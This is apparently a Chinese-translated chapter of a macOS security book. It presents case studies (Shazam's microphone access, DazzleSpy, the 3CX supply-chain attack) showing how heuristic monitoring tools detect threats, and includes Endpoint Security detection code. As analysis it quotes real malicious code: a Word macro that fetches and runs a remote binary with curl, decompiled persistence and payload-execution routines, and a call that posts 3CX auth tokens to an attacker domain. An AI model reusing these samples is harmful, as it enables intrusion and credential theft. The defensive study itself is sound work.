

<hgroup>

## 14 个案例研究

</hgroup>


在本章的最后，我展示了若干个案例研究，涵盖了从正常应用程序出现问题到复杂的国家级攻击等各种情况。在每个案例中，我将演示本书中讨论的基于启发式的检测方法如何成功地揭示威胁，即使事先没有任何相关知识。

### Shazam 的麦克风访问

在 OverSight 发布约一年后，我收到了一个名叫 Phil 的用户发来的电子邮件，邮件内容如下：“多亏了 OverSight，我才弄明白为什么我的麦克风总是监视我。顺便告诉你，Shazam 小部件即使你在应用程序中将切换开关设置为关闭，它仍然保持麦克风处于激活状态。”

Shazam 是一款在 2010 年代中期流行的应用程序，它可以在歌曲播放时识别歌曲的名称和艺术家。为了验证 Phil 的大胆说法（并排除 OverSight 中可能的 bug），我决定调查这个问题。我在我的 Mac 上安装了 Shazam，打开它并指示它开始监听。毫不奇怪，这触发了一个 OverSight 事件，表明 Shazam 启动了计算机内建的麦克风。

然后，我关闭了 Shazam。与预期的禁用警告不同，OverSight 没有显示任何内容。为了确认 Shazam 是否仍在监听，我对该应用程序进行了逆向工程。检查 Shazam 的二进制代码时，我发现了一个名为 SHKAudioRecorder 的核心类，并且似乎与其相关的方法命名为 isRecording 和 stopRecording。在以下的调试器输出中，您可以看到我在内存地址 0x100729040 遇到了这个类的一个实例。我们可以查看这个 SHKAudioRecorder 对象，甚至直接调用它的方法或检查它的属性，看看 Shazam 是否真的仍在录音：

```
(lldb) **po [0x100729040 className]**
SHKAudioRecorder

(lldb) **p (BOOL)[0x100729040 isRecording]**
(BOOL) $19 = YES 
```

进一步分析显示，要停止录音，stopRecording 方法会调用 Apple 的 Core Audio AudioOutputUnitStop 函数。到目前为止，一切正常。然而，进一步调查显示，当用户关闭录音时，Shazam 实际上从未调用过这个方法。这强烈暗示 Shazam 保持麦克风处于激活并监听状态！确实，正如调试器输出所示，在关闭 Shazam 后查询 isRecording 属性，仍然显示它被设置为 YES，这是 Objective-C 中表示“真”的值。

显然，当 Shazam 的宣传材料声称该应用程序将“倾听您的 Mac”时，他们可不是开玩笑！我联系了公司，他们告诉我，这种未文档化的行为是该应用程序设计的一部分，实际上对用户有益：

> 感谢您的联系并向我们报告这个问题。iOS 和 Mac 应用程序使用共享的 SDK，因此您在 Mac 上看到的持续录音情况。我们在 iOS 上使用这种持续录音是为了性能优化，帮助我们为用户提供更快速的歌曲匹配。

虽然 Shazam 最初忽视了我的担忧，但当媒体介入后，它改变了态度，发布了诸如“Shazam 总是在监听你所做的一切”^(1) 和“嘘！Shazam 总是在监听——即使它已经被‘关闭’”^(2) 等标题的报道。对此，Shazam 推出了一个更新，使得当应用被切换到关闭状态时，麦克风会被关闭^(3)。（然而，显然没有什么叫做坏公关；第二年，苹果以 4 亿美元收购了 Shazam。）

我设计了 OverSight 来检测具有麦克风和摄像头间谍功能的恶意软件，如 FruitFly、Crisis 和 Mokes，但其不针对恶意软件的启发式方法证明了极高的通用性，还能够识别一个主要的隐私问题。

接下来，我们将考虑一个更常见的恶意软件检测示例。

### DazzleSpy 检测

DazzleSpy 是本书中多次提到的恶意样本，它是一个很好的案例研究，因为它不是普通的常见恶意软件。这个复杂且持久的后门利用零日漏洞感染了支持香港民主运动的人士^(4)。对这款恶意软件产生兴趣后，我对其进行了自己的分析^(5)，并考虑了安全工具如何防范它以及其他复杂的 macOS 威胁。

#### 漏洞检测

本书中展示的工具和技术主要集中在检测恶意软件一旦进入 macOS 系统后的情况。然而，这些方法通常也能检测到恶意软件的初始利用向量。例如，一个构建进程层次结构的进程监视器可能能够检测到被利用的浏览器或文字处理器生成了一个恶意的子进程。这种基于启发式的漏洞检测方法尤为重要，因为高级威胁行为者越来越多地通过漏洞部署他们的恶意软件。

在我们关注 DazzleSpy 的攻击行为之前，先来看看一起利用恶意文档的攻击事件。该攻击归因于朝鲜国家级黑客，^(6) 该 Word 文件包含能够利用 macOS 系统持久性安装后门的宏代码。以下是恶意代码的一部分：

```
sur = "https://nzssdm.com/assets/mt.dat"
spath = "/tmp/"
i = 0

Do
    spath = spath & Chr(Int(Rnd * 26) + 97)
    i = i + 1
Loop Until i > 12

system("curl -o " & spath & " " & sur)
system("chmod +x " & spath)
popen(spath, "r") 
```

你可以看到，恶意宏通过 curl 下载远程二进制文件 *mt.dat*，将其设置为可执行文件，然后使用 popen API 执行它。由于恶意宏是在 Word 环境中执行的，进程监视器会显示 curl、chmod 和 *mt.dat* 是 Word 的子进程。当然，这种行为是高度异常的，表明这是一起攻击。

就 DazzleSpy 而言，漏洞链复杂得多，但它仍然提供了几个检测的机会。作为链的一部分，一段内存中的 Mach-O 可执行代码将 DazzleSpy 后门下载到 *$TMPDIR/airportpaird* 目录。将后门设为可执行后，它使用特权升级漏洞移除 com.apple.quarantine 扩展属性。此操作确保操作系统允许二进制文件执行，而无需提示或警告，即使它没有通过认证。

由于托管漏洞链的恶意网站早已不存在，除非我们自己搭建一个托管相同漏洞的服务器，否则很难直接测试我们的检测方法。不过，利用端点安全事件的安全工具应该能够轻松观察并甚至阻止漏洞利用 DazzleSpy 部署过程中采取的许多操作。例如，正如第九章所示，ES_EVENT_TYPE_AUTH_EXEC 事件类型提供了一种认证进程执行的机制，或许能阻止任何未认证的进程执行，特别是当父进程是浏览器时。

与删除扩展属性相关的其他端点安全事件可能会捕获或甚至阻止任何试图删除 com.apple.quarantine 的进程。示例代码 14-1 监视其中一个事件，ES_EVENT_TYPE_NOTIFY_DELETEEXTATTR，以检测任何扩展属性的移除。

```
es_client_t* client = NULL;
es_event_type_t events[] = {ES_EVENT_TYPE_NOTIFY_DELETEEXTATTR}; ❶

es_new_client(&client, ^(es_client_t* client, const es_message_t* message) {
    if(ES_EVENT_TYPE_NOTIFY_DELETEEXTATTR == message->event_type) { ❷
        es_string_token_t* procPath = &message->process->executable->path;
        es_string_token_t* filePath = &message->event.deleteextattr.target->path;
        const es_string_token_t* extAttr = &message->event.deleteextattr.extattr;

        printf("ES_EVENT_TYPE_NOTIFY_DELETEEXTATTR\n");
        printf("xattr: %.*s\n", (int)extAttr->length, extAttr->data);
        printf("target file path: %.*s\n", (int)filePath->length, filePath->data);
        printf("responsible process: %.*s\n", (int)procPath->length, procPath->data);
    }
});
es_subscribe(client, events, sizeof(events)/sizeof(events[0])); 
```

示例 14-1：检测隔离属性的移除

我们首先指定感兴趣的事件，ES_EVENT_TYPE_NOTIFY_DELETEEXTATTR，它会在任何扩展属性被移除时通知我们 ❶。（你也可以使用授权事件 ES_EVENT_TYPE_AUTH_DELETEEXTATTR 来完全阻止移除操作。）这个通知事件会触发回调块 ❷，在其中我们提取责任进程、其文件路径和代码删除的任何扩展属性。我们可以从名为 deleteextattr 的结构中提取这些信息，该结构位于端点安全事件中。该结构类型为 es_event_deleteextattr_t，在 *ESMessage.h* 中定义，具有以下成员：

```
typedef struct {
    es_file_t* _Nonnull target;
    es_string_token_t extattr;
    uint8_t reserved[64];
} es_event_deleteextattr_t 
```

当通过浏览器漏洞链或手动下载时，DazzleSpy 的 airportpaird 二进制文件会设置 com.apple.quarantine 扩展属性。你可以通过执行带有 -l 命令行标志的 xattr 命令来确认这一点：

```
% **xattr -l airportpaird**
com.apple.quarantine: 0083;659e4224;Safari;D6E57863-A216-4B5B-ADE8-2ECB300E2075 
```

若要手动模拟该漏洞，可以通过运行带有 -d 标志的 xattr 删除此属性：

```
% **xattr -d com.apple.quarantine airportpaird**
```

如果我们在示例代码 14-1 中编写的监控代码正在运行，你将收到以下警报：

```
# **XattrMonitor.app/Contents/MacOS/XattrMonitor**
ES_EVENT_TYPE_NOTIFY_DELETEEXTATTR
xattr: com.apple.quarantine
target file path: /var/folders/l2/fsx0dkdx3jq6w71cqsht2p240000gn/T/airportpaird
responsible process: /usr/bin/xattr 
```

许多其他恶意软件样本会移除 com.apple.quarantine 扩展属性，包括 CoinTicker、OceanLotus 和 XCSSET。^(7) 然而，值得注意的是，合法应用程序（如安装程序）也可能会移除该属性，因此不应仅凭一次观察就将某个项目分类为恶意。

#### 持久性

通过专注于恶意软件的持久性和网络访问行为，采用基于行为的检测方法，DazzleSpy 也很容易被检测到。让我们从检测其持久性开始，这是检测恶意软件的最佳方法之一。以下反编译片段显示 DazzleSpy 的 installDaemon 方法将其安装并作为启动代理持久化：

```
+(void)installDaemon {
    ...
    rax = NSHomeDirectory();
    var_30 = [[NSString stringWithFormat:@"%@/.local", rax] retain];
    var_38 = [[NSString stringWithFormat:@"%@/softwareupdate", var_30] retain];
    rax = [[NSBundle mainBundle] executablePath];
    var_58 = [NSURL fileURLWithPath:rax];
    var_60 = [NSData dataWithContentsOfURL:var_58];

    [var_60 writeToFile:var_38 atomically:0x1];

    var_78 = [NSString stringWithFormat:@"%@/Library/LaunchAgents", rax];
    var_80 = [var_78 stringByAppendingFormat:@"/com.apple.softwareupdate.plist"];

    var_90 = [[NSMutableDictionary alloc] init];
    var_98 = [[NSMutableArray alloc] init];
 [var_98 addObject:var_38];
    [var_98 addObject:@"1"];
    rax = @(YES);
    [var_90 setObject:rax forKey:@"RunAtLoad"];
    [var_90 setObject:rax forKey:@"KeepAlive"];
    [var_90 setObject:@"com.apple.softwareupdate" forKey:@"Label"];
    [var_90 setObject:var_98 forKey:@"ProgramArguments"];

    [var_90 writeToFile:var_80 atomically:0x0]; 
```

你可以看到，恶意软件首先将自身复制到 *~/.local/softwareupdate*，然后通过使用 *com.apple.softwareupdate.plist* 启动代理属性列表使该副本持久化。

一个订阅了文件 I/O 端点安全事件（如 ES_EVENT_TYPE_NOTIFY_CREATE）的文件监视器可以轻松观察到这种行为，并在 DazzleSpy 持久化时检测到它。例如，这里是 第八章 中讨论的文件监视器的输出：

```
# **FileMonitor.app/Contents/MacOS/FileMonitor -pretty**
...
{
  "event" : "ES_EVENT_TYPE_NOTIFY_CREATE",
  "file" : {
    "destination" : "/Users/User/Library/LaunchAgents/com.apple.softwareupdate.plist",
    "process" : {
      "pid" : 1469,
      "name" : airportpaird,
      "path" : "/var/folders/l2/fsx0dkdx3jq6w71cqsht2p240000gn/T/airportpaird"
    }
  }
} 
```

一旦 DazzleSpy 持久化，我们还可以查看其 *com.apple.softwareupdate.plist* 启动代理属性列表的内容：

```
<?xml version="1.0" encoding="UTF-8"?>
...
<plist version="1.0">
<dict>
    <key>KeepAlive</key>
    <true/>
    <key>Label</key>
    <string>com.apple.softwareupdate</string>
    <key>ProgramArguments</key>
    <array>
        <string>/Users/User/.local/softwareupdate</string>
        <string>1</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
    <key>SuccessfulExit</key>
    <true/>
</dict>
</plist> 
```

ProgramArguments 键确认了我们在反编译中看到的恶意二进制文件持久化位置的路径。同时，你可以看到 RunAtLoad 键被设置为 true，这意味着每次用户登录时（此时操作系统会检查启动代理），macOS 会自动重新启动恶意软件。

BlockBlock 可以通过端点安全文件事件或更新后的 ES_EVENT_TYPE_NOTIFY_BTM_LAUNCH_ITEM_ADD 事件轻松检测到这种持久性。此外，由于传统的防病毒产品已经改进了检测能力，KnockKnock 的 VirusTotal 集成现在会将 DazzleSpy 标记为恶意软件，但即使防病毒签名未能标记 DazzleSpy 为恶意软件（就像恶意软件最初部署时那样），KnockKnock 仍能检测到 DazzleSpy 的持久化启动代理，因为其后台任务管理插件揭示了所有已安装的启动项。

此外，请注意属性列表中的*com.apple*前缀，这表明该二进制文件是一个 Apple 更新程序。然而，Apple 并未签署该项；事实上，该二进制文件完全没有签名。（KnockKnock 通过在项目名称旁边显示问号来指示这一点。）考虑到所有这些信息，我们可以得出结论，该项很可能是恶意的，需要彻底调查。

#### 网络访问

未经授权的网络访问是检测恶意软件的又一种有效方式，DazzleSpy 也不例外。为了接收任务，DazzleSpy 会连接到攻击者的指挥与控制服务器 88.218.192.128\. 以下反编译片段显示该地址已被硬编码到恶意软件中，同时包括端口 5633：

```
int main(int argc, const char* argv[]) {
    ...
    var_18 = [[NSString alloc] initWithUTF8String:"88.218.192.128:5633"]; 
```

像 LuLu 这样的网络监控工具，可以利用第七章中提到的技术，轻松检测到这种网络访问。在其警报中，LuLu 将捕获到未经授权的*softwareupdate*程序试图连接到一个非标准端口上监听的远程服务器。它还会显示该程序没有使用受信任的证书签名或公证，并且它是从一个隐藏目录中运行的。将这些红旗信号结合起来，确实值得进行更深入的检查。

### 3CX 供应链攻击

最后的这个案例研究将我们的工具和技术与被广泛认为是最难检测的攻击之一——供应链攻击——进行了对比。这些破坏性的网络安全事件通过破坏受信任的软件，能够感染大量毫无防备的用户。尽管大多数供应链攻击影响的是基于 Windows 的计算机，但针对开源社区^(8)和 macOS 的此类攻击明显增加。在这里，我们将重点讨论书中多次提到的 2023 年国家级攻击，该攻击目标是流行的私人分支交换（PBX）软件提供商 3CX。

被认为是首个*链式*供应链攻击（攻击者通过另一个供应链攻击获取了对 3CX 的初步访问权限），攻击者破坏了 3CX 的 Windows 和 Mac 版本应用程序。随后，攻击者使用 3CX 自己的开发者证书签署了被篡改的应用程序，并提交给苹果，苹果无意中为其进行了公证。最终，macOS 企业用户在毫无察觉的情况下大量下载了被篡改的应用程序。

供应链攻击非常难以检测。合法的 macOS 3CX 应用程序包含超过 400MB 的代码，分布在 100 多个文件中，因此要识别恶意组件并确认其被篡改，就像大海捞针。你可以在我的文章中阅读更多关于这次搜索的内容，在那里我既确认了 macOS 应用程序的篡改，也找到了该应用程序中承载攻击者恶意代码的单一库。^(9)

可以理解的是，即使是大型网络安全公司也很难进行此类检测：SentinelOne 最初指出，它无法确认 macOS 版本的 3CX 应用程序是否受到攻击的影响。^(10) 此外，苹果的扫描未能发现感染的安装程序被篡改，从而导致意外授予了公证凭证。

尽管如此，通过观察异常或不寻常的行为，仍然很有可能检测到供应链攻击。CrowdStrike 是第一个确认 3CX 在 Windows 上遭遇攻击的组织，^(11) 他们采用了这种基于行为的方法。^(12) 让我们来考虑一下那些能够揭露这一攻击及其他供应链攻击的检测方法。将各种异常现象结合起来，能够清晰地描绘出问题的存在。

#### 文件监控

添加到 3CX 应用程序合法*libffmpeg.dylib*库中的恶意代码有两个简单的目标：收集感染主机的信息，然后下载并执行第二阶段的有效载荷。作为第一步活动的一部分，恶意软件还生成了一个标识符来唯一标识感染的主机，并将其写入一个隐藏的加密文件*.main_storage*。^(13) 下面是一个来自被篡改的*libffmpeg.dylib*库中的反编译代码片段，该函数打开文件、加密信息并将其写入磁盘：

```
❶ rax = fopen(file, "wb");
if (rax != 0x0) {
    rbx = rax;
    rax = 0x0;
  ❷ do {
        *(r14 + rax) = *(r14 + rax) ^ 0x7a;
 rax = rax + 0x1;
    } while (rax != 0x38);

  ❸ fwrite(r14, 0x38, 0x1, rbx);
    fflush(rbx);
    fclose(rbx);
} 
```

在反编译中，你可以看到文件是通过 fopen API ❶打开的。文件名在恶意软件中是硬编码的，但在反编译中未显示，因为代码动态生成完整路径并将其传递给该函数。一旦文件被打开，恶意软件就会使用硬编码的密钥 0x7a ❷，对由 r14 寄存器指向的缓冲区进行 XOR 加密。然后，它通过 fwrite API ❸将加密后的缓冲区写入文件。

使用文件监控工具，你可以观察到恶意软件打开并写入这个隐藏文件：

```
# **FileMonitor.app/Contents/MacOS/FileMonitor -pretty -filter** **"****3CX Desktop App****"**
{
  "event" : "ES_EVENT_TYPE_NOTIFY_CREATE",
  "file" : {
    "destination" :
    "/Users/User/Library/Application Support/3CX Desktop App/.main_storage",
    "process" : {
      "pid" : 40029,
      "name" : "3CX Desktop App",
      "path" : "\/Applications/3CX Desktop App\/Contents\/MacOS\/3CX Desktop App"
    }
  }
}
...
{
  "event" : "ES_EVENT_TYPE_NOTIFY_WRITE",
  "file" : {
    "destination" :
    "/Users/User/Library/Application Support/3CX Desktop App/**.main_storage",**
    "process" : {
      "pid" : 40029,
      "name" : "3CX Desktop App",
      "path" : "\/Applications/3CX Desktop App\/Contents\/MacOS\/3CX Desktop App"
    }
  }
} 
```

如果你手动使用 macOS 的 hexdump 工具检查*.main_storage*，你会看到它明显被混淆或加密：

```
# **hexdump -C ~/Library/Application\ Support/3CX\ Desktop\ App/.main_storage**
00000000  1c 19 1e 4f 1f 43 4e 1b  57 1b 1b 4c 43 57 49 43  |...O.CN.W..LCWIC|
00000010  49 1c 57 4f 49 1f 4e 57  4f 1f 4b 4a 4f 4d 1b 4c  |I.WOI.NWO.KJOM.L|
00000020  4b 4c 1c 4b 7a 7a 7a 7a  7a 7a 7a 7a 7a 7a 7a 7a  |KL.Kzzzzzzzzzzzz|
00000030  05 0c ee 1e 7a 7a 7a 7a 
```

通过标记隐藏文件的创建，特别是那些包含加密内容的文件，我们很快就能注意到 3CX 应用程序表现得非常异常。检测文件是否被加密的一种方法是计算文件的熵值。这个过程计算量大，因此我们不希望对每个文件都进行此操作，但检查隐藏文件可能是一个好的起点！

#### 网络监控

一旦恶意软件为受害者生成了 ID 并完成了对感染系统的基本调查，它会将这些信息发送到其指挥与控制服务器。由此产生的网络流量给我们提供了另一个启发式方法，用于检测是否发生了异常。然而，3CX 应用程序也会访问网络来完成其合法功能，因此要检测其恶意行为，我们需要观察它与新的恶意端点的通信。

事实上，这就是用户最初发现供应链攻击的方式。关于异常行为的首个报告出现在 3CX 论坛上，客户在论坛中发布了关于应用程序发出异常网络流量的帖子。例如，一位客户注意到与*msstorageboxes.com* DNS 主机的连接，这个域名是一个新注册的、不被识别的域名，位于雷克雅未克。^(14) 第十三章中描述的 DNSMonitor 工具让我们能够观察到这些 DNS 流量：

```
% **/Applications/DNSMonitor.app/Contents/MacOS/DNSMonitor**
{
    "Process" : {
        "pid" : 40029,
        "name" : "3CX Desktop App",
        "path" : "\/Applications/3CX Desktop App\/Contents\/MacOS\/3CX Desktop App"
    },
    "Packet" : {
        "Opcode" : "Standard",
        "QR" : "Query",
        "Questions" : [
          {
            "Question Name" : "1648.3cx.cloud",
            "Question Class" : "IN",
            "Question Type" : "AAAA"
          }
        ],
        ...
    }
}
...
{
    "Process" : {
        "pid" : 40029,
        "name" : "3CX Desktop App",
        "path" : "\/Applications/3CX Desktop App\/Contents\/MacOS\/3CX Desktop App"
    },
    "Packet" : {
    "QR" : "Query",
 "Questions" : 
      }
        "Question Name" : "msstorageboxes.com",
        "Question Class" : "IN",
        ... 
```

这两个请求尝试解析域名*1648.3cx.cloud*和*msstorageboxes.com*。你如何判断这些端点是合法的还是异常的？正如上一章所讨论的，一般方法包括检查历史 DNS 记录、WHOIS 数据以及任何 SSL/TLS 证书。^([15) 这些数据点对于*3cx.cloud*域名来说看起来是正常的（该域名是 3CX 基础设施的一部分），但*msstorageboxes.com*域名则引起了一些严重的警报。

#### 进程监控

一旦*libffmpeg.dylib*中的恶意代码解析了命令与控制服务器的地址，它便会向服务器发送生成的 UUID 和从受感染主机收集的基本调查数据。然后，它会下载并执行第二阶段的有效载荷，这为启发式检测这种隐蔽攻击提供了更多的机会。以下是来自*libffmpeg.dylib*的反编译代码片段，显示了恶意软件写出第二阶段有效载荷并执行它的过程：

```
❶ sprintf(&var_21F8, "%s/UpdateAgent", &var_1DF8);
r13 = &var_21F8;
❷ rax = fopen(r13, "wb");
if (rax != 0x0) {
  ❸ fwrite(var_23F8 + 0x4, var_23F8 - 0x4, 0x1, file);
    ...
  ❹ chmod(r13, 755o);
    sprintf(r12, rbp, ❺ r13);
  ❻ rax = popen(r12, "r");
    ... 
```

恶意软件在 3CX 桌面应用程序的*Application Support*目录中为有效载荷构建了完整路径。你可以看到有效载荷的名称被硬编码为 UpdateAgent ❶。接下来，它以写入二进制模式打开该文件 ❷，并写入它从攻击者的命令与控制服务器收到的有效载荷字节 ❸。在将其权限更改为可执行 ❹ 后，恶意软件调用 sprintf API 以创建一个包含保存的 UpdateAgent 二进制文件路径的缓冲区，该路径存储在 r13 寄存器中 ❺，并附加后缀>/dev/null 2>&1。此后缀未在反编译中显示，它会将有效载荷的任何输出或错误重定向到*/dev/null*。最后，恶意软件执行该有效载荷 ❻。

当研究人员发现供应链攻击时，攻击者的命令与控制服务器已经下线，因此我们无法实时观察该攻击。然而，我们可以通过配置主机，将 msstorageboxes.com 解析为我们控制的服务器，然后从受感染的受害者那里提供第二阶段有效载荷样本来模拟该攻击。这个设置将使我们了解我们的监控工具能捕获到有关这次隐秘感染的哪些信息。

例如，第八章中的进程监控代码将捕获以下内容：

```
# **ProcessMonitor.app/Contents/MacOS/ProcessMonitor -pretty**
{
    "event" : "ES_EVENT_TYPE_NOTIFY_EXEC",
    "process" : {
        "pid" : 51115,
        "name" : "UpdateAgent",
        "path" : "/Users/User/Library/Application Support/3CX Desktop App/UpdateAgent",
        "signing info (computed)" : {
            "signatureStatus" : 0,
            "signatureSigner" : "AdHoc",
            "signatureID" : "payload2-55554944839216049d683075bc3f5a8628778bb8"
        },
        "ppid" : 40029,
        ...
    }
} 
```

记得 popen API 在 shell 中执行了第二阶段的有效载荷。即便如此，它的父进程 ID（在此实例中为 40029）仍然能够识别 3CX 桌面应用程序实例。3CX 桌面应用程序生成额外进程的事实稍显可疑；更为严重的是，该进程的二进制文件*UpdateAgent*是以临时方式签名的，而不是使用受信任的证书，这一点是一个巨大的警告信号：

```
% **codesign -dvvv UpdateAgent**
Executable=/Users/User/Library/Application Support/3CX Desktop App/UpdateAgent
Identifier=payload2-55554944839216049d683075bc3f5a8628778bb8
CodeDirectory v=20100 size=450 flags=0x2(**adhoc**) hashes=6 + 5 location=embedded 
```

如同 DazzleSpy 的情况一样，初始有效负载通常会使用开发者证书签名并且经过公证，允许它们在较新的 macOS 版本上顺利运行。然而，二级有效负载通常不会这样做。如果它们是由操作系统中运行的恶意代码下载并执行的，那么就不需要签名和公证了。然而，大多数合法软件都会进行签名，因此你应该仔细检查任何未经公证的第三方软件，甚至可以完全阻止它的执行。

当前，BlockBlock 只会阻止 macOS 已经隔离的未经公证的软件。然而，你可以修改该工具，仅允许公证的第三方软件执行。为此，你可以注册一个 Endpoint Security 客户端并订阅 ES_EVENT_TYPE_AUTH_EXEC 事件。如果新进程是有效签名并且经过公证，你可以返回 ES_AUTH_RESULT_ALLOW 以允许其执行。否则，你可以返回 ES_AUTH_RESULT_DENY 来阻止该进程。不过，请记住，核心平台二进制文件并未经过公证。

BlockBlock 始终允许平台二进制文件，你可以通过 Endpoint Security es_process_t 结构体中的 is_platform_binary 成员来识别它们。此外，来自官方 Mac App Store 的应用程序并未经过公证，尽管 Apple 会对它们进行恶意软件扫描。要判断某个应用程序是否来自 Mac App Store，请使用以下要求字符串：anchor apple generic and certificate leaf [subject.CN] = \"Apple Mac OS Application Signing\"。

#### 捕获自我删除

*UpdateAgent* 二进制文件执行了其他我们可以检测到的可疑操作。例如，它会自我删除。在分叉后，子进程调用 unlink API，并传入 argv[0]，该值保存了进程二进制文件的路径：

```
int main(int argc, const char* argv[]) {
    ...
    if(fork() == 0) {
        ...
        unlink(argv[0]); 
```

恶意软件非常喜欢自我删除，因为从磁盘上移除二进制文件往往能阻碍分析。即便是安全工具，macOS 也没有提供有效的方法来捕捉正在运行的进程的内存镜像。事实上，至少有一家安全公司，其产品跟踪进程启动，但未能获取到 *UpdateAgent* 二进制文件，因为当分析人员试图手动收集它时，它已经自我删除。同样，传统的基于签名的病毒扫描器需要扫描磁盘上的文件，如果没有找到文件，它们将无法执行扫描。幸运的是，一位匿名用户非常慷慨地与我分享了该二进制文件，使得我能够对其进行详细分析，并写出了相关报告。^(16)

对于基于启发式的检测方法，自我删除的二进制文件既容易被检测到，也是一个明显的警告信号。通过文件监控来检测自我删除的二进制文件非常简单：只需查找删除事件，其中进程路径与被删除文件的路径匹配，如以下输出所示：

```
# **FileMonitor.app/Contents/MacOS/FileMonitor -pretty -filter UpdateAgent**
{
  "event" : "ES_EVENT_TYPE_NOTIFY_UNLINK",
  "file" : {
    "destination" : "/Users/User/Library/Application Support/3CX Desktop App/UpdateAgent",
    ...
    "process" : {
      "pid" : 51115,
      "name" : "UpdateAgent",
      "path" : "/Users/User/Library/Application Support/3CX Desktop App/UpdateAgent"
    }
  }
} 
```

请注意，两个 *UpdateAgent* 二进制文件的路径一致。

#### 检测外泄

自删除后，*UpdateAgent*从一个合法的 3CX 配置文件和由第一阶段组件*libffmpeg.dylib*创建的*.main_storage*文件中提取信息。在其 send_post 函数中，恶意软件将这些信息发送到另一个命令和控制服务器*sbmsa.wiki*：

```
parse_json_config(...);
read_config(...);

enc_text(&var_460, &var_860, rdx);

sprintf(&var_1060, "3cx_auth_id=%s;3cx_auth_token_content=
%s;__tutma=true", &var_58, &var_860);

send_post("https://sbmsa.wiki/blog/_insert", &var_1060, &var_1064); 
```

这次传输无疑是整个供应链攻击中最容易检测的行为，而且更重要的是，可以将其归类为异常，这一点基于许多前面已经讨论的原因。首先，网络扩展（例如 DNSMonitor）可以轻松检测到新的网络事件，并将其与相应的进程关联。在本例中，负责的进程*UpdateAgent*是最近安装的，采用临时签名并且未经过公证。此外，该进程已自删除。最后，域名*sbmsa.wiki*显得可疑，原因包括缺乏历史 DNS 记录、选择的注册商等。

LuLu 发出的警报（见图 14-1），由恶意软件尝试连接攻击者的远程服务器触发，捕获了这些异常现象。例如，带删除线的进程名称表示自删除，而困惑的皱眉符号则表明该恶意软件具有不可信的签名。



图 14-1：LuLu 警报显示一个具有不可信签名的自删除二进制文件尝试访问网络。

供应链攻击因其非常难以检测且影响广泛而臭名昭著。然而，正如这里所示，利用启发式方法的监控工具可以识别与这些复杂攻击相关的异常行为，从而实现其检测。### 结论

每当我们对工具的检测能力做出大胆声明时，特别是对于尚未发现的威胁，我们必须为这些声明提供支持。在本章最后，我们将本书中介绍的工具和检测方法与针对 macOS 系统的最新且最隐蔽的威胁进行对抗。虽然我们事先并不知道这些威胁，但基于启发式的方法的检测表现出色。这确认了基于行为的启发式方法在识别现有和新兴威胁方面的强大能力，正如我们在本章最后以及全书中所展示的那样。更重要的是，现在你已经具备了编写自己工具和启发式方法的知识和技能，能够应对未来即使是最复杂的 macOS 威胁。

### 注释

1.    1.  “Shazam 一直在监听你所做的一切，”*纽约邮报*，2016 年 11 月 11 日，[*https://<wbr>nypost<wbr>.com<wbr>/2016<wbr>/11<wbr>/15<wbr>/shazam<wbr>-is<wbr>-always<wbr>-listening<wbr>-to<wbr>-everything<wbr>-youre<wbr>-doing<wbr>/*](https://nypost.com/2016/11/15/shazam-is-always-listening-to-everything-youre-doing/).

1.    2.  John Leyden, “嘘！Shazam 总是处于监听状态——即使它已经被‘关闭’了，” *The Register*，2016 年 11 月 16 日，[*https://www.theregister.com/2016/11/15/shazam_listening/*](https://www.theregister.com/2016/11/15/shazam_listening/).

1.    3.  你可以在 Patrick Wardle 的文章《忘记 NSA 吧，Shazam 才是一直在监听！》中阅读更多关于 Shazam 失误反转的内容，Objective-See，2016 年 11 月 14 日，[*https://objective-see.org/blog/blog_0x13.html*](https://objective-see.org/blog/blog_0x13.html).

1.    4.  Marc-Etienne M. Léveillé 和 Anton Cherepanov, “Watering Hole 在亚洲部署新的 macOS 恶意软件 DazzleSpy，” *WeLiveSecurity*，2022 年 1 月 25 日，[*https://www.welivesecurity.com/2022/01/25/watering-hole-deploys-new-macos-malware-dazzlespy-asia/*](https://www.welivesecurity.com/2022/01/25/watering-hole-deploys-new-macos-malware-dazzlespy-asia/).

1.    5.  Patrick Wardle, “分析 OSX.DazzleSpy，” Objective-See，2022 年 1 月 25 日，[*https://objective-see.org/blog/blog_0x6D.html*](https://objective-see.org/blog/blog_0x6D.html).

1.    6.  Phil Stokes, “Lazarus APT 通过毒害的 Word 文档攻击 Mac 用户，” SentinelOne，2019 年 4 月 25 日，[*https://www.sentinelone.com/labs/lazarus-apt-targets-mac-users-with-poisoned-word-document/*](https://www.sentinelone.com/labs/lazarus-apt-targets-mac-users-with-poisoned-word-document/).

1.    7.  “颠覆信任控制：绕过 Gatekeeper，” Mitre Attack，[*https://attack.mitre.org/techniques/T1553/001/*](https://attack.mitre.org/techniques/T1553/001/).

1.    8.  “在 Linux 发行版中发现恶意代码，” *Kaspersky*，2024 年 3 月 31 日，[*https://www.kaspersky.com/blog/cve-2024-3094-vulnerability-backdoor/50873/*](https://www.kaspersky.com/blog/cve-2024-3094-vulnerability-backdoor/50873/).

1.    9.  Patrick Wardle, “完善 (macOS) 细节：一个平稳操作的细节（第一部分）”，Objective-See，2023 年 3 月 29 日，[*https://objective-see.org/blog/blog_0x73.html*](https://objective-see.org/blog/blog_0x73.html).

